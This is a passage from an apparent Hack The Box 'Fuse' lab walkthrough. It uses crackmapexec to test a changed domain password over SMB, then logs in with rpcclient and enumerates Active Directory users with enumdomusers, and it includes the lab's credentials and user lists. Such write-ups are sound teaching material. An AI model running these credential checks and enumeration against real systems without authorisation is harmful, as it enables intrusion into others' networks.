 Password changed for user tlavel

If we test the new password Fabricorp02 with crackmapexec, we get:

┌─\[rin@parrot\]─\[/opt/impacket\]

└──╼ $crackmapexec smb fuse.htb -u tlavel -p Fabricorp02

SMB 10.129.70.212 445 FUSE \[\*\] Windows Server 2016 Standard 14393 x64 \(name:FUSE\) \(domain:fabricorp.local\) \(signing:True\) \(SMBv1:True\)

SMB 10.129.70.212 445 FUSE \[+\] fabricorp.local\tlavel:Fabricorp02

The password gets reset every minute on this machine back to Fabricorp01 and so whatever we do to test access, we need to do it straight after resetting the password. There is also a password history kept and so each time the password is changed from Fabricorp01, it needs to be changed to an entirely new password.

We can do that and then log into the machine using rpcclient. Interestingly, rpcclient will also report NT\_STATUS\_PASSWORD\_MUST\_CHANGE if we use the original Fabricorp01

┌─\[rin@parrot\]─\[~/boxes/Fuse\]

└──╼ $rpcclient -U tlavel fuse.htb

Enter WORKGROUP\tlavel's password:

Cannot connect to server. Error was NT\_STATUS\_PASSWORD\_MUST\_CHANGE

Using enumdomusers to enumerate the users on the box, we get an extended list of users:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Fuse\]

└──╼ $rpcclient -U tlavel fuse.htb

Enter WORKGROUP\tlavel's password:

rpcclient $&gt; enumdomusers

user:\[Administrator\] rid:\[0x1f4\]

user:\[Guest\] rid:\[0x1f5\]

user:\[krbtgt\] rid:\[0x1f6\]

user:\[DefaultAccount\] rid:\[0x1f7\]

user:\[svc-print\] rid:\[0x450\]

user:\[bnielson\] rid:\[0x451\]

user:\[sthompson\] rid:\[0x641\]

user:\[tlavel\] rid:\[0x642\]

user:\[pmerton\] rid:\[0x643\]

user:\[svc-scan\] rid:\[0x645\]

user:\[bhult\] rid:\[0x1bbd\]

user:\[dandrews\] rid:\[0x1bbe\]

user:\[mberbatov\] rid:\[0x1db1\]
